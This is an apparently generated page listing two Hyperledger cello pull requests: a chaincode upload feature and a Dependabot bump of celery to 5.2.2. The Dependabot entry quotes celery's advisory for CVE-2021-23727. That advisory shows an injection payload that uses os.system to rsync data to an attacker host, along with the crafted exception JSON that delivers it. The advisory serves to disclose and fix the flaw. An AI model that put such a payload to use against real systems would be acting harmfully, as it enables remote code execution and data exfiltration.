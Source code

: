```yaml
---
layout: default
title: cello
parent: Hyperledger
grand_parent: Pull Requests
has_children: false
permalink: /pull-requests/hyperledger/cello
---
```


# cello <span class="fs-3 right-align">[GitHub](https://github.com/hyperledger/cello){: .btn .mr-4 }</span>


<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/369" class=".btn">#369</a>
            </td>
            <td>
                <b>
                    [#issue-368] chaincode files upload
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                The interface of chain code upload is added. Temporarily save the chain code in the / opt / chaincode / {MD5} directory. In the future, consider making the package function in an interface?

Close #issue-368

Signed-off-by: tianxuanhong1 <523713078@qq.com>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 00:55:07 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/367" class=".btn">#367</a>
            </td>
            <td>
                <b>
                    Bump celery from 4.2.1 to 5.2.2 in /src/api-engine
                </b>
            </td>
        </tr>
        <tr>
            <td>
                <span class="chip">Dependencies</span><span class="chip">python</span>
            </td>
            <td>
                Bumps [celery](https://github.com/celery/celery) from 4.2.1 to 5.2.2.
<details>
<summary>Release notes</summary>
<p><em>Sourced from <a href="https://github.com/celery/celery/releases">celery's releases</a>.</em></p>
<blockquote>
<h2>5.2.2</h2>
<p>Release date: 2021-12-26 16:30 P.M UTC+2:00</p>
<p>Release by: Omer Katz</p>
<ul>
<li>
<p>Various documentation fixes.</p>
</li>
<li>
<p>Fix CVE-2021-23727 (Stored Command Injection security
vulnerability).</p>
<blockquote>
<p>When a task fails, the failure information is serialized in the
backend. In some cases, the exception class is only importable
from the consumer's code base. In this case, we reconstruct the
exception class so that we can re-raise the error on the process
which queried the task's result. This was introduced in <a href="https://github-redirect.dependabot.com/celery/celery/issues/4836">#4836</a>. If
the recreated exception type isn't an exception, this is a
security issue. Without the condition included in this patch, an
attacker could inject a remote code execution instruction such as:
<code>os.system(&quot;rsync /data attacker@192.168.56.100:~/data&quot;)</code> by
setting the task's result to a failure in the result backend with
the os, the system function as the exception type and the payload
<code>rsync /data attacker@192.168.56.100:~/data</code> as the exception
arguments like so:</p>
<pre lang="python"><code>{
      &quot;exc_module&quot;: &quot;os&quot;,
      'exc_type': &quot;system&quot;,
      &quot;exc_message&quot;: &quot;rsync /data attacker@192.168.56.100:~/data&quot;
}
</code></pre>
<p>According to my analysis, this vulnerability can only be exploited
if the producer delayed a task which runs long enough for the
attacker to change the result mid-flight, and the producer has
polled for the task's result. The attacker would also have to
gain access to the result backend. The severity of this security
vulnerability is low, but we still recommend upgrading.</p>
</blockquote>
</li>
</ul>
<h2>v5.2.1</h2>
<p>Release date: 2021-11-16 8.55 P.M UTC+6:00</p>
<p>Release by: Asif Saif Uddin</p>
<ul>
<li>Fix rstrip usage on bytes instance in ProxyLogger.</li>
<li>Pass logfile to ExecStop in celery.service example systemd file.</li>
<li>fix: reduce latency of AsyncResult.get under gevent (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7052">#7052</a>)</li>
<li>Limit redis version: &lt;4.0.0.</li>
<li>Bump min kombu version to 5.2.2.</li>
<li>Change pytz&gt;dev to a PEP 440 compliant pytz&gt;0.dev.0.</li>
</ul>
<!-- raw HTML omitted -->
</blockquote>
<p>... (truncated)</p>
</details>
<details>
<summary>Changelog</summary>
<p><em>Sourced from <a href="https://github.com/celery/celery/blob/master/Changelog.rst">celery's changelog</a>.</em></p>
<blockquote>
<h1>5.2.2</h1>
<p>:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz</p>
<ul>
<li>
<p>Various documentation fixes.</p>
</li>
<li>
<p>Fix CVE-2021-23727 (Stored Command Injection security vulnerability).</p>
<p>When a task fails, the failure information is serialized in the backend.
In some cases, the exception class is only importable from the
consumer's code base. In this case, we reconstruct the exception class
so that we can re-raise the error on the process which queried the
task's result. This was introduced in <a href="https://github-redirect.dependabot.com/celery/celery/issues/4836">#4836</a>.
If the recreated exception type isn't an exception, this is a security issue.
Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
<code>os.system(&quot;rsync /data attacker@192.168.56.100:~/data&quot;)</code>
by setting the task's result to a failure in the result backend with the os,
the system function as the exception type and the payload <code>rsync /data attacker@192.168.56.100:~/data</code> as the exception arguments like so:</p>
<p>.. code-block:: python</p>
<pre><code>  {
        &quot;exc_module&quot;: &quot;os&quot;,
        'exc_type': &quot;system&quot;,
        &quot;exc_message&quot;: &quot;rsync /data attacker@192.168.56.100:~/data&quot;
  }
</code></pre>
<p>According to my analysis, this vulnerability can only be exploited if
the producer delayed a task which runs long enough for the
attacker to change the result mid-flight, and the producer has
polled for the task's result.
The attacker would also have to gain access to the result backend.
The severity of this security vulnerability is low, but we still
recommend upgrading.</p>
</li>
</ul>
<p>.. _version-5.2.1:</p>
<h1>5.2.1</h1>
<p>:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin</p>
<ul>
<li>Fix rstrip usage on bytes instance in ProxyLogger.</li>
<li>Pass logfile to ExecStop in celery.service example systemd file.</li>
<li>fix: reduce latency of AsyncResult.get under gevent (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7052">#7052</a>)</li>
<li>Limit redis version: &lt;4.0.0.</li>
<li>Bump min kombu version to 5.2.2.</li>
</ul>
<!-- raw HTML omitted -->
</blockquote>
<p>... (truncated)</p>
</details>
<details>
<summary>Commits</summary>
<ul>
<li><a href="https://github.com/celery/celery/commit/b21c13d234dd6d6c197436374ab1bb5db4be62c7"><code>b21c13d</code></a> Bump version: 5.2.1 → 5.2.2</li>
<li><a href="https://github.com/celery/celery/commit/a60b4867f4bd4efa4b5a2834fcf3f757740b1b8f"><code>a60b486</code></a> Add changelog for 5.2.2.</li>
<li><a href="https://github.com/celery/celery/commit/3e5d630f478518eb775c05ba87b29024400fbe68"><code>3e5d630</code></a> Fix changelog formatting.</li>
<li><a href="https://github.com/celery/celery/commit/1f7ad7e6df1e02039b6ab9eec617d283598cad6b"><code>1f7ad7e</code></a> Fix CVE-2021-23727 (Stored Command Injection securtiy vulnerability).</li>
<li><a href="https://github.com/celery/celery/commit/2d8dbc2a8087bbb60590465031ebd5138b8eb359"><code>2d8dbc2</code></a> Update configuration.rst</li>
<li><a href="https://github.com/celery/celery/commit/9596abad9060323d85d3945d8637b3cafadfefa2"><code>9596aba</code></a> Fix typo in documentation</li>
<li><a href="https://github.com/celery/celery/commit/639ad83239a1f9cfc58ee9852a1f107f96d3c1a1"><code>639ad83</code></a> update doc to reflect Celery 5.2.x (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7153">#7153</a>)</li>
<li><a href="https://github.com/celery/celery/commit/d32356c0e46eefecd164c55899f532c2fed2df57"><code>d32356c</code></a> Bump version: 5.2.0 → 5.2.1</li>
<li><a href="https://github.com/celery/celery/commit/6842a786eeeb2d0f1fcd66408b72924b39e07836"><code>6842a78</code></a> Merge branch 'master' of <a href="https://github.com/celery/celery">https://github.com/celery/celery</a></li>
<li><a href="https://github.com/celery/celery/commit/4c92cb745f658382a4eb4b94ba7938d119168165"><code>4c92cb7</code></a> changelog for v5.2.1</li>
<li>Additional commits viewable in <a href="https://github.com/celery/celery/compare/v4.2.1...v5.2.2">compare view</a></li>
</ul>
</details>
<br />


[![Dependabot compatibility score](https://dependabot-badges.githubapp.com/badges/compatibility_score?dependency-name=celery&package-manager=pip&previous-version=4.2.1&new-version=5.2.2)](https://docs.github.com/en/github/managing-security-vulnerabilities/about-dependabot-security-updates#about-compatibility-scores)

Dependabot will resolve any conflicts with this PR as long as you don't alter it yourself. You can also trigger a rebase manually by commenting `@dependabot rebase`.

[//]: # (dependabot-automerge-start)
[//]: # (dependabot-automerge-end)

---

<details>
<summary>Dependabot commands and options</summary>
<br />

You can trigger Dependabot actions by commenting on this PR:
- `@dependabot rebase` will rebase this PR
- `@dependabot recreate` will recreate this PR, overwriting any edits that have been made to it
- `@dependabot merge` will merge this PR after your CI passes on it
- `@dependabot squash and merge` will squash and merge this PR after your CI passes on it
- `@dependabot cancel merge` will cancel a previously requested merge and block automerging
- `@dependabot reopen` will reopen this PR if it is closed
- `@dependabot close` will close this PR and stop Dependabot recreating it. You can achieve the same result by closing it manually
- `@dependabot ignore this major version` will close this PR and stop Dependabot creating any more for this major version (unless you reopen the PR or upgrade to it yourself)
- `@dependabot ignore this minor version` will close this PR and stop Dependabot creating any more for this minor version (unless you reopen the PR or upgrade to it yourself)
- `@dependabot ignore this dependency` will close this PR and stop Dependabot creating any more for this dependency (unless you reopen the PR or upgrade to it yourself)
- `@dependabot use these labels` will set the current labels as the default for future PRs for this repo and language
- `@dependabot use these reviewers` will set the current reviewers as the default for future PRs for this repo and language
- `@dependabot use these assignees` will set the current assignees as the default for future PRs for this repo and language
- `@dependabot use this milestone` will set the current milestone as the default for future PRs for this repo and language

You can disable automated security fix PRs for this repo from the [Security Alerts page](https://github.com/hyperledger/cello/network/alerts).

</details>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-06 22:30:19 +0000 UTC
    </div>
</div>

